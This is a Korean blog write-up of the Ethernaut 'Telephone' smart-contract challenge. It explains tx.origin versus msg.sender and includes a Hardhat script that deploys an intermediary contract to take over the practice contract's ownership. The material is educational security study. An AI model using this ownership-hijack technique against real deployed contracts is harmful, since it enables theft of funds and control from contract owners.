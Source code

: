 +++
title = "Telephone"
date = "2023-08-21"
+++

---

> My Solutions: [github](https://github.com/c0np4nn4/EtherStudy/tree/main/ethernaut_solution)

---

# TL;DR
> `tx.origin` 과 `msg.sender`의 차이를 묻는 문제입니다. 

<center>
<img alt="main image" src="https://images.unsplash.com/photo-1614688395919-31228976e03c?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=689&q=80" />
</center>

---

# Introduction
스마트 컨트랙트를 작성할 때 많은 부분들은 직관적으로 이해할 수 있는 수준이며, 예상대로 동작하게 됩니다.
하지만, 잘못 이해하고 사용하면 바로 취약점으로 연결되는 요소들도 존재합니다.
이번 문제인 `Telephone` 컨트랙트는 그러한 요소들 중 하나인 `msg.sender`와 `tx.origin`의 차이를 다룹니다.

---

# Problem Detail
## Goal
우선 문제 목표를 확인하기 위해 `TelephoneFactory` 컨트랙트의 `validateInstance()` 함수를 살펴보면 아래와 같습니다.

<center>
<img alt="validateInstance" src="../../ethernaut_img/4_telephone_1.png" />
</center>

`owner`를 변경하면 됨을 확인할 수 있습니다.

## Contract
스마트 컨트랙트를 살펴보면 아래와 같습니다.

<center>
<img alt="telephone.sol" src="../../ethernaut_img/4_telephone_2.png" />
</center>

컨트랙트를 배포할 때, `owner`는 `msg.sender`가 됩니다.
함수 `changeOwner()`는 인자로 `_owner`를 받고, 만약 `tx.origin != msg.sender`라면 인자로 받은 값을 새로운 `owner`로 바꿉니다.


---

# Exploit
본격적으로 `exploit`을 진행하기 전에 `tx.origin`과 `msg.sender`에 관한 내용을 정리하고 넘어가도록 하겠습니다.

## `tx.origin`, `msg.sender`
얼핏 보면, 트랜잭션을 보내는 주체와 "메세지"를 보내는 주체를 나눈 이유가 없어 보입니다.
하지만, [Solidity Docs](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#block-and-transaction-properties)에 따르면, 아래와 같이 그 차이를 정리할 수 있습니다.

> - `tx.origin`
>     - **Full Call Chain**에서 처음으로 트랜잭션을 보낸 주체
> - `msg.sender`
>     - **Current Call** 에 대한 메세지를 보낸 주체

보다 직관적인 이해를 위해 다이어그램과 함께 설명을 첨가하겠습니다.

(추가)

## Strategy
따라서, `Telephone` 컨트랙트를 호출하는 `TelephoneCaller`라는 이름의 컨트랙트를 하나 더 배포하여 `tx.origin != msg.sender`가 되도록 **Call Chain** 을 만들어주면 됩니다.

## Code
아래는 `Hardhat`을 이용하여 실행한 `telephone.js` 입니다.
코드 실행 환경은 [레포](https://github.com/c0np4nn4/etherstudy)를 확인해주시기 바랍니다.

```js
const { ethers } = require('hardhat');

async function main() {
  const [owner, player] = await ethers.getSigners();
  console.log("[0] original owner: ", owner.address);
  console.log("[0] player: ", player.address);

  console.log("[1] deploy CoinFlipFactory");
  const Factory = await ethers.getContractFactory("TelephoneFactory");
  const factory = await Factory.deploy();
  await factory.deployed();

  console.log("[2] create a CoinFlip instance");
  const receipt = await factory.createInstance(owner.address);
  const instance_address = (await receipt.wait()).events[0].args[0];
  const telephone = await ethers.getContractAt("Telephone", instance_address, owner);

  console.log("[3] deploy Caller");
  const Caller = await ethers.getContractFactory("TelephoneCaller");
  const caller = await Caller.deploy();
  await caller.deployed();
  console.log("---- TelephoneCaller address: ", caller.address);

  console.log("[4] call attack()");
  await caller.attack(telephone.address, player.address);

  console.log("[5] validate solved");
  const res = await factory.validateInstance(telephone.address, player.address);
  if (res == true) {
    console.log("[+] Done!");
  } else {
    console.log("[+] Fail...");
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```
## Result
실행 화면은 아래와 같습니다.

<center>
<img alt="result" src="../../ethernaut_img/4_telephone_3.png" />
</center>

앞서 살펴본대로, `TelephoneCaller`를 호출할 때는 `tx.origin`과 `msg.sender`의 값이 동일합니다.
하지만, *Call Chain* 이 생기면서 `Telephone`을 호출할 때는 `tx.origin`은 **그대로**있고, `msg.sender`만 `TelephoneCaller`의 주소로 변경됨을 확인할 수 있습니다.



---

# Conclusion
여러 스마트 컨트랙트를 연결하여 **Call Chain**을 구성하는 패턴은 자주 쓰일 것으로 보입니다.
이 때, `tx.origin`과 `msg.sender`의 개념을 정확히 이해하고 있어야 여러 logical error 의 발생을 막고 안전한 스마트 컨트랙트를 작성할 수 있습니다.

<script src="https://utteranc.es/client.js"
        repo="c0np4nn4/utterance_repo"
        issue-term="pathname"
        label="utterances"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>

